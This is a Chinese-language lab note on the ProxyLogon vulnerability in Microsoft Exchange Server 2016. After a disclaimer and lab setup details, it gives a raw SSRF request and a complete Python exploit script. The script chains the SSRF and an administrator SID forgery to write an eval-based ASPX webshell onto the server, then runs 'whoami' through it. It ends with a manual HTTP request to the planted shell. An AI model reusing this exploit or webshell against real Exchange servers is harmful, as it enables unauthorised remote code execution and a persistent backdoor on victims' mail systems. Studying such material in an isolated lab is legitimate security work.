




# Proxylogon

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**实验环境**

`环境仅供参考`
- VMware® Workstation 16 Pro - 16.1.0 build-17198959
- 域控 : 192.168.141.136 - win server 2016 (f8x.com)
- Exchange Server 2016 cu18

---

# 环境搭建

见 [Exchange搭建](../../../Integrated/Windows/实验/Exchange搭建.md)

访问 https://localhost/ecp

账号密码就是主机的账号密码,登录之后创建账号 test@f8x.com



---

# 漏洞利用

**CVE-2021-26855 SSRF测试**
```
POST /ecp/fewi.js HTTP/1.1
Host: 目标
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: X-BEResource=windows主机名/autodiscover/autodiscover.xml?a=~1942062522;
Content-Type: text/xml
Content-Length: 412


            <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
                <Request>
                <EMailAddress>邮箱</EMailAddress>
                <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
                </Request>
            </Autodiscover>

```



**测试 getshell**

```py
import requests
from urllib3.exceptions import InsecureRequestWarning
import random
import string
import sys


def id_generator(size=6, chars=string.ascii_lowercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))

if len(sys.argv) < 2:
    print("使用方式: python PoC.py <target> <email>")
    print("使用方式: python PoC.py mail.btwaf.cn test2@btwaf.cn")
    exit()

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
target = sys.argv[1]
email = sys.argv[2]
random_name = id_generator(4) + ".js"
user_agent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36"

shell_path = "Program Files\\Microsoft\\Exchange Server\\V15\\FrontEnd\\HttpProxy\\owa\\auth\\test11.aspx"
shell_absolute_path = "\\\\127.0.0.1\\c$\\%s" % shell_path

# webshell-马子内容
shell_content = '<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["code"],"unsafe");}</script>'

autoDiscoverBody = """<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>%s</EMailAddress> <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
""" % email

print("正在获取Exchange Server " + target+"权限")
print("=============================")
FQDN = "EXCHANGE01"
ct = requests.get("https://%s/ecp/%s" % (target, random_name), headers={"Cookie": "X-BEResource=localhost~1942062522",
                                                                        "User-Agent": user_agent},
                  verify=False)

if "X-CalculatedBETarget" in ct.headers and "X-FEServer" in ct.headers:
    FQDN = ct.headers["X-FEServer"]


ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
    "Cookie": "X-BEResource=%s/autodiscover/autodiscover.xml?a=~1942062522;" % FQDN,
    "Content-Type": "text/xml",
    "User-Agent": user_agent},
                   data=autoDiscoverBody,
                   verify=False
                   )

if ct.status_code != 200:
    print(ct.status_code)
    print("Autodiscover Error!")
    exit()

if "<LegacyDN>" not in str(ct.content):
    print("Can not get LegacyDN!")
    exit()

legacyDn = str(ct.content).split("<LegacyDN>")[1].split(r"</LegacyDN>")[0]
print("Got DN: " + legacyDn)

mapi_body = legacyDn + "\x00\x00\x00\x00\x00\xe4\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00"

ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
    "Cookie": "X-BEResource=Administrator@%s:444/mapi/emsmdb?MailboxId=f26bc937-b7b3-4402-b890-96c46713e5d5@exchange.lab&a=~1942062522;" % FQDN,
    "Content-Type": "application/mapi-http",
    "X-Requesttype": "Connect",
    "X-Clientinfo": "{2F94A2BF-A2E6-4CCCC-BF98-B5F22C542226}",
    "X-Clientapplication": "Outlook/15.0.4815.1002",
    "X-Requestid": "{E2EA6C1C-E61B-49E9-9CFB-38184F907552}:123456",
    "User-Agent": user_agent
},
                   data=mapi_body,
                   verify=False
                   )
if ct.status_code != 200 or "act as owner of a UserMailbox" not in str(ct.content):
    print("Mapi Error!")
    exit()

sid = str(ct.content).split("with SID ")[1].split(" and MasterAccountSid")[0]

print("Got SID: " + sid)
sid = sid.replace(sid.split("-")[-1],"500")

proxyLogon_request = """<r at="Negotiate" ln="john"><s>%s</s><s a="7" t="1">S-1-1-0</s><s a="7" t="1">S-1-5-2</s><s a="7" t="1">S-1-5-11</s><s a="7" t="1">S-1-5-15</s><s a="3221225479" t="1">S-1-5-5-0-6948923</s></r>
""" % sid

ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
    "Cookie": "X-BEResource=Administrator@%s:444/ecp/proxyLogon.ecp?a=~1942062522;" % FQDN,
    "Content-Type": "text/xml",
    "msExchLogonMailbox": "S-1-5-20",
    "User-Agent": user_agent
},
                   data=proxyLogon_request,
                   verify=False
                   )
if ct.status_code != 241 or not "set-cookie" in ct.headers:
    print("Proxylogon Error!")
    exit()

sess_id = ct.headers['set-cookie'].split("ASP.NET_SessionId=")[1].split(";")[0]

msExchEcpCanary = ct.headers['set-cookie'].split("msExchEcpCanary=")[1].split(";")[0]
print("Got session id: " + sess_id)
print("Got canary: " + msExchEcpCanary)

ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
    "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/GetObject?schema=OABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
        FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),
    "Content-Type": "application/json; charset=utf-8",
    "msExchLogonMailbox": "S-1-5-20",
    "User-Agent": user_agent

},
                   json={"filter": {
                       "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                                      "SelectedView": "", "SelectedVDirType": "All"}}, "sort": {}},
                   verify=False
                   )

if ct.status_code != 200:
    print("GetOAB Error!")
    exit()
oabId = str(ct.content).split('"RawIdentity":"')[1].split('"')[0]
print("Got OAB id: " + oabId)

oab_json = {"identity": {"__type": "Identity:ECP", "DisplayName": "OAB (Default Web Site)", "RawIdentity": oabId},
            "properties": {
                "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                               "ExternalUrl": "http://ffff/#%s" % shell_content}}}

ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
    "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/SetObject?schema=OABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
        FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),
    "msExchLogonMailbox": "S-1-5-20",
    "Content-Type": "application/json; charset=utf-8",
    "User-Agent": user_agent
},
                   json=oab_json,
                   verify=False
                   )
if ct.status_code != 200:
    print("Set external url Error!")
    exit()

reset_oab_body = {"identity": {"__type": "Identity:ECP", "DisplayName": "OAB (Default Web Site)", "RawIdentity": oabId},
                  "properties": {
                      "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                                     "FilePathName": shell_absolute_path}}}

ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
    "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/SetObject?schema=ResetOABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
        FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),
    "msExchLogonMailbox": "S-1-5-20",
    "Content-Type": "application/json; charset=utf-8",
    "User-Agent": user_agent
},
                   json=reset_oab_body,
                   verify=False
                   )

if ct.status_code != 200:
    print("写入shell失败了啊")
    exit()

print("成功了。马上就验证shell是否OK!")
print("POST  shell:https://"+target+"/owa/auth/test11.aspx")
shell_url="https://"+target+"/owa/auth/test11.aspx"
print('code=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami").StdOut.ReadAll());')
print("正在请求shell")
data=requests.post(shell_url,data={"code":"Response.Write(new ActiveXObject(\"WScript.Shell\").exec(\"whoami\").StdOut.ReadAll());"},verify=False)
if data.status_code != 200:
    print("写入shell失败")
else:
    print("权限如下："+data.text.split("OAB (Default Web Site)")[0].replace("Name                            : ",""))
```



如果运行失败了,可以手动访问 shell 地址 https://192.168.141.136/owa/auth/test11.aspx

```
POST /owa/auth/test11.aspx HTTP/1.1
Host: 192.168.141.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: X-BEResource=WIN-4J4L8GP7BF2/EWS/Exchange.asmxa=~1942062522;
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

code=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami").StdOut.ReadAll());
```


